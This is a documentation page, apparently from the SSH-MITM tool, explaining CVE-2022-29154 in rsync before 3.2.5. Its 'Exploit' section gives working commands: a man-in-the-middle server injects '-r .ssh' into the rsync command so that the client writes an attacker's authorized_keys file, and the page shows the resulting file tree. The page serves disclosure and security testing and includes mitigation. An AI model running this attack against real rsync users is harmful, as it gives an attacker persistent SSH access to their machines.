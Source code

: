 .. _cve-2022-29154:

:fas:`check;sd-text-success` :bdg-danger:`CVSS 7.4` CVE-2022-29154
==================================================================

.. card::

    :bdg-danger:`CVSS 7.4` CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:H/A:H
    ^^^
    An issue was discovered in rsync before 3.2.5 that allows malicious remote servers
    to write arbitrary files inside the directories of connecting peers.
    The server chooses which files/directories are sent to the client.
    However, the rsync client performs insufficient validation of file names.
    A malicious rsync server (or Man-in-The-Middle attacker) can overwrite arbitrary files in the
    rsync client target directory and subdirectories (for example, overwrite the .ssh/authorized_keys file).
    +++
    **Affected Software:**

    * rsync < 3.2.5

    :fas:`check;sd-text-success` integrated in `SSH-MITM <https://github.com/ssh-mitm/ssh-mitm/blob/master/sshmitm/plugins/scp/CVE202229154.py>`_

Description
-----------

rsync < 3.2.5 does not sufficiently check whether the received files match the requested files.
This can be exploited by a MitM attacker or a malicious server to slip false or additional files to the client.

There are several ways in which this vulnerability can be exploited.
In the simplest case, however, it is sufficient to modify the rsync command so that additional files are returned.

The easiest way to describe this vulnerability is to synchronize 1 file. As an example, the file "test.txt" in the user's home directory is synchronized.

.. note::

    SSH-MITM uses port 10022 by default, which is why the SSH command must be modified when using rsync.

    Also it is recommended to pass through the SSH agent so that there are no problems when using Publickey authentication.

.. code-block::

    rsync -e 'ssh -p 10022 -A' 'user@127.0.0.1:test.txt' .

As soon as rsync has connected to SSH-MITM, the command sent by rsync to the server is displayed:

.. code-block::

    rsync --server --sender -e.LsfxCIvu . test.txt

On the server the command `rsync` is then executed with the internal parameters `--server` and `--sender`.

.. note::

    The arguments to the `-e` parameter specify the functions that the client supports.
    In this case no subdirectories are synchronized.
    To synchronize also subdirectories the parameter `-r`` must be specified additionally at the server.
    This is normally passed from the client to the server. When synchronizing a single file, this parameter is normally not specified.
    Thus directories would be ignored by the server.


The command can be modified by a MitM attack or a malicious server. To do this, a call to the server-side rsync command only requires the parameters to be modified accordingly. The following command would synchronize the file "test.txt" as well as the directory ".ssh". By synchronizing the ".ssh" directory, it is possible to foist a manipulated ".ssh/authorized_keys" file on the client.

.. code-block::

    rsync --server --sender -e.LsfxCIvu . test.txt -r .ssh



Exploit
-------

On the destination server create a file called "test.txt" and a subfolder containing an authorized_keys file.

.. code-block::

    echo "testfile" > test.txt
    mkdir .ssh
    echo "PUBLIC_SSH_KEY" > .ssh/authorized_keys

Run the server and specify additional files to be requested. In this case the folder ".ssh" and the command line argument "-r" will be added to the remote rsync command.

.. code-block::

    ssh-mitm server --scp-interface CVE-2022-29154 --rsync-inject-file '-r .ssh'

Connect the client to the man in the middle server.

.. code-block::

    rsync -e 'ssh -p 10022 -A' 'user@SERVER:test.txt' .

If your rsync version is vulnerable you will reveive the file "test.txt" from the server and a folder ".ssh" containing an authorized_keys file.

.. code-block::

    $ tree -a
    .
    ├── .ssh
    │   └── authorized_keys
    └── test.txt

    1 directory, 2 files


Mitigation
----------

 When dealing with an untrusted sending host, it is safest to copy into a dedicated destination directory
 for the remote content (i.e. don't copy into a destination directory that contains files that aren't from
 the remote host unless you trust the remote host).

References:
-----------

 * https://download.samba.org/pub/rsync/NEWS#3.2.5
 * https://nvd.nist.gov/vuln/detail/CVE-2022-29154
 * https://www.openwall.com/lists/oss-security/2022/08/02/1
 * https://github.com/WayneD/rsync/commit/b7231c7d02cfb65d291af74ff66e7d8c507ee871
 * https://serverfault.com/a/1096808/611948
